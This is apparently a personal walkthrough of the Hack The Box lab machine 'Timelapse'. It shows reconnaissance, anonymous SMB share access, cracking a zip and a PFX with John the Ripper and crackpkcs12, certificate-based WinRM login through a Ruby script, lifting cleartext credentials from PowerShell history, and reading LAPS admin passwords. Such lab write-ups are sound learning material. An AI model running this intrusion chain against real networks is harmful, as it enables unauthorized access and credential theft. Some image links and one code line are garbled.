

# timelapse-writeup-apr-22

## Timelapse



Timelapse was fun, I did parts of it over a 2-day period where I could find the time.

I found Timelapse to be realistic for enumeration. I had to take some time to understand using a extended authentication for WinRM.

I don't consider the privilege escalation to be realistic but nonetheless, having an understanding of the technologies in use made this quite easy after gaining a foothold

## Reconnaissance <a href="#6b46" id="6b46"></a>

First thing.

I will echo the box name into my /etc/hosts file for DNS resolution.

```
echo "timelapse.htb  10.10.11.152" >> /etc/hosts
```

Using '>>' ensures the existing data is added to and not overwriten such as when using '>'.

I then make a directory of the box for all files using mkdir.

```
cd ~/HTB
mkdir Timelapse
```

I run a quick initial nmap scan to see which ports are open and which services are running on those ports. I generally export this to a file for later viewing. I had to use -sS as my nmap scans were being blocked by AV.

```
nmap -sS -p- -A timelapse.htb > nmap-initial.txt
```

* **-sS:** Stealth Mode
* **-p-:** Scan all ports (TCP/UDP)
* **-A:** Enable OS detection, versions

```
Nmap scan report for timelapse.htb (10.10.11.152)
Host is up (0.022s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-04-09 19:31:14Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_ssl-date: 2022-04-09T19:32:50+00:00; +8h01m35s from scanner time.
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
61953/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 3 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 8h01m34s, deviation: 0s, median: 8h01m34s
| smb2-time:
|   date: 2022-04-09T19:32:11
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
```

The results show a typical Active Directory Domain Controller, distinguishable by services DNS, Kerberos, SMB, LDAP etc..

* **Port 53:** dns
* **Port 88:** kerberos
* **Port 135:** rpc
* **Port 139/445:** smb
* **Port 389/636/3268/3269:** ldap
* **Port 5986:** winrm

## Enumeration <a href="#64a0" id="64a0"></a>

### **LDAP**

Attempts to gain information through LDAP were unsuccessful. I attempted to use LDAP3 to exploit LDAP information through NULL bind (unauthenticated) - This was met '_Connection Reset by Peer_'

This was the case for using Port 636 with SSL and Port 389 without SSL

```
import ldap3
server = ldap3.Server('10.10.11.152', get_info = ldap3.ALL, port =636, use_ssl = True)
connection = ldap3.Connection(server)
connection.bind()
server.infoome code
```

.png>)

### **SMB**

SMB has always proved some-what reliable for me during enumeration phases. I used tools smbclient & smbmap.

I use smbmap to discover network shares avaialble to be as 'Guest' or 'anonymous' access.

```
smbmap -H 10.10.11.152 -u Guest -p "" -R
```

* **-H:** Host / IP Address
* **-u:** User
* **-p:** Password
* **-R:** Recursive

 (1).png>)

The results provide us with access to files under the \Shares\Dev & \Shares\Helpdesk.

The files of LAPS\_\* suggest that LAPS is implemented in the environment, meaning that there will be an account / group that will be able to read the Local Admin password from Active Directory.

The winrm\_backup.zip suggests that WinRM may have some additional out of box configurations.

I grab all the files using smbclient.

```
smbclient //10.10.11.152/Shares -u Guest -p ""
cd Dev
ls
get winrm_backup.zip
cd ../Helpdesk
get LAPS_Datasheet.docx
get LAPS_OperationsGuide.docx
get TechnicalSpecification.docx
```

 (1) (1).png>)

 (1).png>)

ZIP file is protected with a password but the contents show a PFX.

 (1).png>)

I used a couple of tools to crack the .zip and then the PFX, mainly John-The-Ripper.

Cracking the .zip using zip2john - This will output the hash of the password on the .zip

```
zip2john winrm_backup.zip > zip-hash.txt
```

* zip2john \<file.zip> > \<hash file output>

 (1).png>)

Cracking the hash with John-The-Ripper.

```
john --wordlist=/usr/share/wordlist/rockyou.txt zip-hash.txt
```

* **John:** John-The-Ripper
* **--wordlist=:** Wordlist location / Wordlist to use - Rockyou.txt

 (1).png>)

Using the password from the .zip, I can now extract the PFX file.

 (1).png>)

legacyy\_dev\_auth.pfx - The name of this PFX suggest it's used for authentication, given that it's contained within the winrm\_backup.zip, I am guessing it's used for winrm. Also, the name legacyy is spelt incorrectly. I am also assuming that this may be a user on Timelapse that is used for Dev.

I use crackpkcs12 for my cracking encrypted pfx & p12 files.

```
crackpkcs12 -d /usr/share/wordlist/rockyou.txt legacyy_dev_auth.pfx -v
```

* **-d:** Dictionary Wordlist
* **-v:** Verbose mode

 (2).png>)

Given the name of the certificate, I have made a note that these are potential credentials:

* Username: legacyy
* Password: #####

### WINRM

Knowing that WINRM uses Certificate-based authentication. I need to extract the certificate & the key from the PFX file. For this, I use openssl

```
#Extracting the private key
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev.key

#Extracting the certificate
openssl pkcs12 -in  legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev.cer
```

Whilst extracting the key & cert, it will prompt for the password of the PFX.

Whilst extracting the key, it will request to supply a new PEM pass phrase. (Yes there is a typo in my file names)

.png>)

.png>)

Attempting to connect over WINRM failed for me when trying to use evil-winrm. I secured a Ruby script from [https://book.hacktricks.xyz/pentesting/5985-5986-pentesting-winrm](https://book.hacktricks.xyz/pentesting/5985-5986-pentesting-winrm) to edit.

Here is part of the Ruby script and the changes added in.

```
require 'winrm-fs'

# Author: Alamot
# To upload a file type: UPLOAD local_path remote_path
# e.g.: PS> UPLOAD myfile.txt C:\temp\myfile.txt


conn = WinRM::Connection.new( 
  endpoint: 'https://10.10.11.152:5986/wsman', #Configure for Timelapse IP:5986/WSMAN
  transport: :ssl,
  user: 'legacyy', #Username
  password: '####', #Password
  :client_cert => '/home/kali/htb/Timelapse/legacyy_dev.cer', #Added in for Certificate Auth
  :client_key => '/home/kali/htb/Timelapse/legacyy_dev.key', #Added in for Certificate Auth
  :no_ssl_peer_verification => true
)
```

 (1).png>)

### Foothold - WinRM

.png>)

Now that I'm in, time for further enumeration.

I check what users are present in C:\Users.

 (1).png>)

* **Administrator**
* **Legacyy (current)**
* **Public**
* **svc\_deploy**
* **TRX**

I get access denied to all of these profiles.

#### **TL:DR**

After some thorough enumeration, I come across the ConsoleHost\_history.txt file under Legacyy's profile.

 (1).png>)

The screenshot above shows that legaccy is attempting to invoke a command on the localhost under a different user account (svc\_deploy). The variable $p provides the password in clear text.

I copy and paste the output and edit my Ruby script with the new credentials and hash out the certificate requirements

 (1).png>)

 (1).png>)

### Privilege Escalation

Using svc\_deploy I am able to perform Powershell queries for AD attributes. Things I want to identify are Domain Group memberships and Computer objects.

```
Get-ADUser -Filter * -Properties * | Select Name, MemberOf
Get-ADComputer -Filter * | Select Name, Enabled, SamAccountName
```

.png>)

.png>)

* **Administrator:** Domain Admins, Enterprise Admins, Schema Admins
* **Guest:** Not interested
* **krbtgt:** Standard Stuff
* **TheCyberGeek:** Domain Admin
* **Sinfulz:** Helpdesk
* **Babywyrm:** Helpdesk
* **svc\_deloy:** LAPS\_Reader
* **TRX:** Domain Admin

svcdeploy has membership in LAPS\_Readers. if you're unfamiliar with this, This means that svc\_deploy can read the Local Administrators password on devices where LAPS is configured.

```
Get-ADComputer -Filter * -Properties * | Select Name, ms-Mcs-AdmPwd
```

* **ms-Mcs-AdmPwd:** This is the AD Attribute where the password is stored.

.png>)

Now I have the Administrators password, time to go back and reconfigure my Ruby script.

.png>)

I am now the administrator and get root.txt
